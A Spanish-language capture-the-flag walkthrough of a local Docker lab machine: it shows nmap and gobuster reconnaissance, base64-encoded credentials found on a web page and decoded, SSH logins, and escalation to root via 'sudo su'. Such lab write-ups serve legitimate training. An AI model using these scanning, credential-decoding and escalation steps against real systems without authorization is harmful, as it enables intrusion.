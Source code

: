 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh
```

![Pasted image 20250131142942](https://github.com/user-attachments/assets/4cf0ac59-0fc6-4e6f-9fc1-8096a1eef774)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250131143033](https://github.com/user-attachments/assets/2afd00f9-739f-4064-92f3-a8ec867c53ed)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250131145014](https://github.com/user-attachments/assets/0344ef5a-8bdf-4570-85f2-0f6c370d6726)

Nos metemos en la web:

![Pasted image 20250131144417](https://github.com/user-attachments/assets/5d28e41e-e6f6-4a71-a575-e824dd535544)

```Bash
sjd c2pkCg==
admin YWRtaW4K
root MTk3MQo=
```

Encontramos estos usuarios y contraseñas.

Desciframos la contraseña de admin:

```Bash
echo YWRtaW4K | base64 -d
```

![Pasted image 20250131144455](https://github.com/user-attachments/assets/01985d52-9d62-487a-b6e7-5b80d7613966)

Nos conectamos con **SSH**:

```Bash
ssh admin@172.17.0.2
```

![Pasted image 20250131144159](https://github.com/user-attachments/assets/bdfa4c19-5e3e-49d4-bc64-8f95d3f85052)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250131144041](https://github.com/user-attachments/assets/8cbecd55-6888-4f0d-abd5-f59c680bd981)

```Bash
sudo su
```

![Pasted image 20250131144102](https://github.com/user-attachments/assets/ebafc8c4-4067-4c26-9c92-851c62f783a6)

```Bash
whoami
```

![Pasted image 20250131144116](https://github.com/user-attachments/assets/144668eb-cae8-4f66-8f3f-1c2b660e2225)

Otra forma:

Desciframos la contraseña de root:

```Bash
echo MTk3MQo= | base64 -d
```

![Pasted image 20250131144523](https://github.com/user-attachments/assets/ddc56abf-9d85-4bd8-857c-7a7f55e23041)

Nos conectamos con **SSH**:

```Bash
ssh root@172.17.0.2
```

![Pasted image 20250131144238](https://github.com/user-attachments/assets/c0c1dc8c-0c30-49cf-92b0-092327a9a9ed)

```Bash
whoami
```

![Pasted image 20250131144251](https://github.com/user-attachments/assets/9bf41eff-7346-48ae-8da4-867104447fbf)
